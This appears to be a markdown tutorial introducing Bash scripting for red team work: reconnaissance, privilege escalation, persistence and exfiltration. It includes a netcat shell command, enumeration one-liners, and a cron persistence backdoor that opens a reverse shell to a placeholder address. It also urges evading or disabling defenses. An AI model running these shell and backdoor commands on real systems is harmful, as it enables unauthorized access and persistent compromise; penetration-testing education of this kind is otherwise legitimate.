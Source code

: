 # 📘 1. **Introduction to Bash/Shell Scripting**

## 🐚 **What is Bash/Shell Scripting?**
**Bash (Bourne Again SHell)** is a **command-line shell** used to interact with the system’s kernel (core of the operating system). It allows users to run commands interactively or write **scripts** (files containing sequences of commands) to automate processes.

- **Shell**: Interface that allows you to interact with your computer's OS through text commands.
- **Scripting**: Writing commands in a sequence within a file to execute automatically.

Bash scripting is particularly useful for:
- **Automation**: Reduces repetitive tasks, such as scanning, brute-forcing, or automating CTF challenges.
- **Rapid Prototyping**: Test out offensive strategies or exploit chains with scripts.
- **System Interaction**: Direct access to system tools, files, and processes.

## ⚙️ **Why Learn Bash?**
1. **Efficiency in Red Teaming**: Automation is key in red teaming. You can write scripts for:
   - Reconnaissance
   - Privilege escalation
   - Exploitation
   - Post-exploitation (data exfiltration, backdoors, etc.)
   
2. **Tool Integration**: Combine various **pentesting tools** (like `nmap`, `nikto`, `hydra`, etc.) into one cohesive script. This enables you to **execute complex tasks** with a single command.
   
3. **Cost-Effective**: No need to rely on expensive third-party tools; most Linux-based tools can be scripted using Bash.

4. **Job Flexibility**: Whether you're in **DevOps**, **System Admin**, **Red Team**, or **SOC**, Bash scripting is vital for automation, tool orchestration, and system manipulation.

## 🔐 **Why Bash Matters in Cybersecurity / Red Teaming**

Bash is **indispensable** for **red teamers** because:
- It provides a low-level, flexible way to interact with systems without needing a GUI.
- It's powerful for writing **payloads**, automating **attacks**, and conducting **post-exploitation activities**.
  
Examples:
- **Reconnaissance**: Automating network scans, brute-forcing, and data gathering from target systems.
- **Privilege Escalation**: Enumerating potential vulnerabilities, misconfigurations, and privilege escalation vectors in a network.
- **Payload Delivery**: Writing reverse shells, web shells, or custom exploits in Bash.
- **Exfiltration**: Automatically reading files, compressing data, and transferring them to an external server.
- **Evasion**: Using Bash scripting to **obfuscate** commands or interact with a system in a way that evades basic security defenses.

#### 📌 **Use Cases in Real-World Red Team Operations**

1. **Reconnaissance**: 
   - Automate tool usage such as `nmap`, `whois`, `dnsrecon`, etc., to quickly map out a target’s attack surface.
   - Write Bash scripts to pull system info (OS, ports, services) from compromised machines for enumeration.

2. **Exploitation**:
   - Use **reverse shells** in Bash to create backdoors.
   - Automate exploitation tools like Metasploit or custom exploits with **Bash one-liners**.

3. **Privilege Escalation**:
   - Write scripts to enumerate potential vectors (e.g., setuid binaries, world-writeable files, misconfigurations).
   - Use Bash to escalate privileges or perform lateral movement within the network.

4. **Persistence**:
   - Automate the creation of **backdoors** using simple Bash scripts that will persist across reboots or logins.
   
5. **Data Exfiltration**:
   - Create scripts to exfiltrate sensitive data (passwords, config files, etc.) from compromised machines back to your command and control server.
   - Use compression (`tar`, `gzip`) and transfer (`scp`, `netcat`) techniques to automate the process.

6. **Defender’s Perspective**:
   - Understanding how defenders use Bash to track actions or identify intruders is critical. Learn to script in ways that **bypass** or **disable** defenses.

## 🧰 **Common Bash Use Cases and Commands for Red Teaming**

Here are some Bash command examples and how they help in red teaming:

- **`nc` (Netcat)**: Create a reverse shell.
  ```bash
  nc -lvnp 4444 -e /bin/bash
  ```
  
- **Enumerating Sudo Permissions**:
  ```bash
  sudo -l
  ```
  
- **Finding Setuid Binaries**:
  ```bash
  find / -type f -perm /4000
  ```
  
- **Checking for World Writable Files**:
  ```bash
  find / -type f -perm /o+w
  ```
  
- **Stealthy Persistence (Cron jobs)**:
  ```bash
  echo "@reboot /bin/bash -i > /dev/tcp/your_ip/port 0<&1 2>&1" > /etc/cron.d/backdoor
  ```

## 🎯 **When Do You Use Bash in Red Teaming?**

- **During Recon**: Automating common tools and commands to gather information from public-facing services.
- **In Exploit Development**: Writing reverse shells, payloads, and backdoors in Bash for stealth and speed.
- **After Initial Compromise**: Post-exploitation activities like persistence, lateral movement, and exfiltration are often controlled via Bash scripts.
- **Bypassing Security**: Bypassing firewalls, IDS/IPS systems, or antivirus detection via obfuscated Bash scripts.
